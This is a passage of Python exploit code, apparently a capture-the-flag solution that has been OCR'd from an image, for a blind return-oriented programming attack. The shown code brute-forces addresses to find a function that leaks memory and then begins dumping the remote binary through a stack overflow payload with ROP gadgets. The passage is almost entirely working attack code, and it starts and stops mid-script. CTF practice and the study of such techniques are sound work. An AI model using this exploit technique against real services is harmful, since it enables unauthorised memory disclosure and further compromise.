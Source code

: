 ```py
    except:
        io.close()

    addr += 1
'''
brop = 0x4007ba



# FIND LEAKING FUNCTION

'''
addr = 0x4006fb

while True:
    print("*** TRYING {} ***".format(hex(addr)))
    io = start()
    payload = flat({
        0x58: [
            brop+9,
            0x400000,
            addr,
            ],
        })
    io.sendlineafter(b"Are you blind my friend?\n", payload)

    try:
        res = io.recv(4, timeout=4)
        if b'ELF' in res:
            print(io.recvline())
            print(hex(addr))
            break
        else:
            io.close()
    except:
        io.close()

    addr += 1
'''

leak_func = 0x4006fb



# DUMP BINARY

'''
current_addr = 0x400000

f = open('vuln', 'wb')
while True:
    print("*** READING {} ***".format(hex(current_addr)))
    io = start()
    payload = flat({
        0x58: [
            brop+9,
            current_addr,
            leak_func,
            ],
        })
    io.sendlineafter(b"Are you blind my friend?\n", payload)

    try:
```